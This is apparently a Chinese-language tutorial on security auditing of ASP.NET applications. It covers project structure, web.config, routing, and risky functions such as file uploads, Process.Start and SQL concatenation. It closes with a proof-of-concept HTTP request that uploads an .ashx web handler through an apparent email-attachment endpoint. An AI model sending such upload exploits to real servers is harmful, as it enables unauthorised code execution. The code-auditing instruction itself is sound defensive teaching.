



 在.NET程序中，最容易出现问题的就是权限问题，文件上传apsx，sql注入。


### **0x01、基础知识：**

ASP.NET开发可以选用两种框架：`ASP.NET Core`与`ASP.NET Framework`

ASP.NET开发也分为两种：
1、WebApplication：
```
WEB应用程序，改变代码后需要重启网页。具有namespace空间名称，项目中所有的程序代码文件，和独立的文件都被编译成为一个程序集，保存在bin文件夹中。
```
2、WebSite：
```
WEB网站，改变代码后不用重启网页。它没用到namespace空间名称，每个asp页面会转成一个dll。
.NET Framework 用asp,aspx居多
.NET Core 用cshtml居多
```
^
## **0x02、开发模式：**
三种：WebForm开发模式、MVC 开发模式、ASP.NET Core Razor Pages模式。
主要就是研究WebForm开发模式

#### **WebForm开发模式**
```
aspx页面显示，通常代码是一些html代码，第一行文件头会显示具体触发功能代码的位置，就可以通过这个位置找到处理的函数。服务器端的动作就是在aspx.cs文件中定义
.cs是类文件，存放公共类。
.ashx是一般处理程序，主要用于写web handler，可以理解成不会显示的aspx页面，不过效率更高
dll就是编译之后的cs文件。
```
aspx文件头含义：
```
Language：表示当前所使用的语言，为C# 开发语言。
AutoEventWireup：表示 ASP.NET 是否自动将页面事件（如 Page_Load）绑定到页面的事件处理方法，true 表示自动绑定，这意味着如果页面中有一个名为 Page_Load 的方法，它将自动处理页面的 Load 事件。
CodeBehind： 属性指定与页面关联的代码隐藏文件的路径。在上图中，LoginPage.aspx.cs 是包含后台代码的文件，其中定义了页面的逻辑。在一些较新的 ASP.NET 项目中，CodeBehind 可能被 CodeFile 替代，特别是在 Web Application 项目中。
Inherits：指定页面继承的类。该页面继承自 OWASP.WebGoat.NET.LoginPage 类，这个类通常在 LoginPage.aspx.cs 文件中定义。
```
```
App_Code: 存放共享的代码文件，如类、接口等。这些文件可以在整个应用程序中访问。
App_Data: 存储应用程序的数据库文件或其他数据文件。这个目录对外部用户不可访问。
Bin: 存放编译后的程序集（DLL 文件）和依赖项。这个目录会自动创建。
Resources: 存放与特定页面相关的资源文件。
Web.config: 应用程序的配置文件，用于定义应用程序的设置、连接字符串、路由等。
```

#### **MVC 开发模式**

ASP.NET MVC 是一种基于 MVC 模式的 Web 开发框架，注重分离关注点（Separation of Concerns），即将业务逻辑、用户界面和输入控制分离。具体呈现模式和Java比较类似，在此不做赘述。
```
目录结构：
Controllers: 包含控制器类文件。控制器负责处理用户输入、操作模型，并返回视图。
Models: 存放应用程序的模型类，这些类定义了应用程序的数据结构和业务逻辑。
Views: 包含视图文件（.cshtml 或 .vbhtml），用于呈现用户界面。通常每个控制器有一个对应的视图文件夹。
Scripts: 存放 JavaScript 文件。
App_Start: 包含启动配置文件，如 RouteConfig.cs、BundleConfig.cs、FilterConfig.cs 等。
App_Data: 存储应用程序的数据库文件或其他数据文件。
Bin: 存放编译后的程序集（DLL 文件）和依赖项。
Global.asax: 应用程序的全局配置文件，用于处理应用程序级别的事件。
Web.config: 应用程序的配置文件。
```
#### **ASP.NET Core Razor Pages模式**
ASP.NET Core 是一个跨平台、高性能的开源框架，用于构建现代 Web 应用、云应用和微服务。它整合了 ASP.NET MVC 和 Web API，并具有更好的性能和灵活性。通过 Razor Pages 提供了一种类似 Web Forms 的开发体验，但更轻量。每个页面由一个 Razor 文件（.cshtml）和一个代码隐藏文件（.cshtml.cs）组成，页面逻辑与视图紧密结合。避免了 MVC 中的路由配置复杂性，适合页面数量少的应用，适用于小型项目或单页面应用程序，以及希望简化页面开发的场景。
```
目录结构：
Controllers: 包含控制器类文件。控制器处理请求并返回响应，通常使用 API 风格或 MVC 模式。
Models: 包含模型类，用于定义应用程序的数据结构和业务逻辑。
Views: 包含视图文件（.cshtml），用于呈现用户界面。
Shared: 包含共享的视图，如布局文件 _Layout.cshtml。
Pages: 用于 Razor Pages 项目，包含页面文件（.cshtml）和页面模型文件（.cshtml.cs）。
wwwroot: 存放静态文件（CSS、JavaScript、图像等）。这个文件夹中的内容可以通过 URL 直接访问。
css: 存放 CSS 文件。
js: 存放 JavaScript 文件。
lib: 存放通过包管理器（如 npm 或 LibMan）安装的前端库。
AppSettings.json: 应用程序的配置文件，替代了传统的 Web.config。
Program.cs: 应用程序的入口点，配置和启动应用程序。
Startup.cs: 配置应用程序的服务和请求管道。通常包括中间件配置和服务依赖注入。
Bin: 存放编译后的程序集（DLL 文件）和依赖项。
Properties: 包含项目的属性文件，如 launchSettings.json，用于配置开发和发布设置。
```


^
## **0x03、ASP.NET Framework比较关键的文件：**
> web.config:

```
1.web.config是基于XML的文件，可以保存到Web应用程序中的任何目录中，
用来储存数据库连接字符、身份安全验证等。
2.加载方式：当前目录搜索 -> 上一级到根目录 ->
 %windir%/Microsoft.NET/Framework/v2.0.50727/CONFIG/web.config ->
 %windir%/Microsoft.NET/Framework/v2.0.50727/CONFIG/machine.config -> 都不存在返回null
```

> Global.asax：

```
1. Global.asax提供全局可用的代码，从HttpApplication基类派生的类，响应的是应用程序级别会话级别事件，通常ASP.NET的全局过滤代码就是在这里面。
```

^
## **0x04、ASP.NET的常见拓展名：**

在`%windir%\Microsoft.NET\Framework\v2.0.50727\CONFIG\web.config`中有详细定义，这里提取部分简单介绍。


```
aspx：应用程序根目录或子目录，包含web控件与其他
cs：类文件
aspx.cs：web窗体后台程序代码文件 
aspx页面编写前端代码，.aspx.cs页面编写后端代码，后端编译后在bin目录的dll中

ascx：应用程序根目录或子目录,Web 用户控件文件。
asmx：应用程序根目录或子目录，该文件包含通过 SOAP 方式可用于其他 Web 应用程序的类和方法。
asax：应用程序根目录，通常是Global.asax
config：应用程序根目录或子目录，通常是web.config
ashx：应用程序根目录或子目录,该文件包含实现 IHttpHandler 接口以处理所有传入请求的代码。
soap：应用程序根目录或子目录。soap拓展文件
```


^
## **0x05、代码审计**
<https://www.geekby.site/2024/08/dotnet%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E7%B3%BB%E5%88%97%E4%B8%80/>


^
## **0x06、代码审计实战思路**
#### **1、熟悉框架目录配置**
```
├─Admin
├─App_Data  //App_Data文件夹应该包含应用程序的本地数据存储
├─bin     // 包含应用程序所需的任何预生成的程序集
├─bootstrap
├─css
├─images
├─img
├─install
├─javascript
├─m
├─purchase
├─style
├─temp
├─Template
├─uploads
└─UserControl
```
WEB应用程序会把我们写的代码编译为DLL文件存放在Bin文件夹中，在ASPX文中基本就是一些控件名，所以需要反编译他的DLL来进行审计。

发布后目录参考
```
-bin
-Web.config
-WebForm1.aspx
```


#### **2、一个Logout.aspx示例**
```
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="Logout.aspx.cs" Inherits="Book.Logout" %>
<html xmlns="http://www.w3.org/1999/xhtml" >
...
</html>

在文件头中有这几个参数：
1.Language="C#" //脚本语言
2.AutoEventWireup="true" //是否自动关联某些特殊事件
3.CodeBehind="Logout.aspx.cs" //指定包含与页关联的类的已编译文件的名称
4.Inherits="Book.Logout" //定义供页继承的代码隐藏类

我们所关注的也就是Inherits 的值，如上所示他指向了Bin目录下的purchase.dll中Book类的Logout函数
（注：purchase.dll是网站编译的项目名，一般与文件目录对应）
```
类后端

反编译bin/dll


#### **3、一个web.config示例**
这个文件包含了目录权限控制、数据库密码等等
```
<location path="purchase/orderdetail.aspx">
    <system.web>
      <authorization>
        <allow users="*"/>
      </authorization>
    </system.web>
  </location>

  <authentication mode="Forms" />
```
比如我们使用的这套程序中定义了`purchase/orderdetail.aspx`匿名可以访问。
```
在web.config中有四种验证模式：

方式	描述
window	IIS验证，在内联网环境中非常有用
Passport	微软集中式身份验证，一次登录便可访问所有成员站点，需要收费
Form	窗体验证，验证帐号/密码，Web编程最佳最流行的验证方式
None	表示ASP.NET自己根本不执行身份验证，完全依赖IIS身份验证
```


^
## **0x07、代码审计点**
文件上传aspx
```
saveas()
File.Move(sourcePath, destinationPath);
File.Copy(sourcePath, destinationPath);
System.IO.File.WriteAllBytes
```
RCE
```
cmd
Process.Start()
ShellExecute()
```
SQL注入
```
SQL语句拼接处
```
任意文件读取、目录穿越
```
filename为过滤../等
File 对象的 OpenText 和 OpenRead 方法
FileStream 对象的 FileMode.Open 和 FileMode.Read
Response.WriteFile 常用于文件下载
```


^
## **0x08、查找路由**

在 .NET Web 项目中，路由定义了 URL 请求如何映射到特定的控制器和操作方法（或者处理程序）。当确定了程序入口点，以及存在风险的不安全函数后，如何访问到存在漏洞的页面呢？Web Forms 项目很简单，直接访问对应的 `xxx.aspx` 即可，其它架构下就需要寻找其路由定义。
^
ASP.NET Core 项目路由
ASP.NET Core 使用 Startup.cs 文件中的 Configure 方法来配置路由。通常你会看到类似如下的代码：
```
public void Configure(IApplicationBuilder app, IHostingEnvironment env)
{
    app.UseRouting();

    app.UseEndpoints(endpoints =>
    {
        endpoints.MapControllerRoute(
            name: "default",
            pattern: "{controller=Home}/{action=Index}/{id?}");
    });
}
```
在这里，MapControllerRoute 方法定义了默认的路由模式，你可以在这个 UseEndpoints 方法中查看和定义项目的所有路由。

^
ASP.NET MVC 项目路由
在 ASP.NET MVC 项目中，路由通常配置在 RouteConfig.cs 文件中，该文件位于 App_Start 文件夹下：
```
public class RouteConfig
{
    public static void RegisterRoutes(RouteCollection routes)
    {
        routes.IgnoreRoute("{resource}.axd/{*pathInfo}");

        routes.MapRoute(
            name: "Default",
            url: "{controller}/{action}/{id}",
            defaults: new { controller = "Home", action = "Index", id = UrlParameter.Optional }
        );
    }
}
```

^
## **0x09、类似注解**



^
## **0x10、案例**
```
POST /JoinfApp/EMail/UploadEmailAttr?name=.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

<% @ webhandler language="C#" class="AverageHandler" %>
using System;
using System.Web;
using System.IO;
using System.Threading.Tasks;
public class AverageHandler : IHttpHandler
{
    public bool IsReusable
    { get { return false; } }
    public void ProcessRequest(HttpContext ctx)
    {
        ctx.Response.Write("POC_TEST");
        Task.Run(async () =>
        {
            File.Delete(ctx.Server.MapPath(ctx.Request.FilePath));
        });
        ctx.Response.Flush();
        ctx.Response.End();
    }
}
```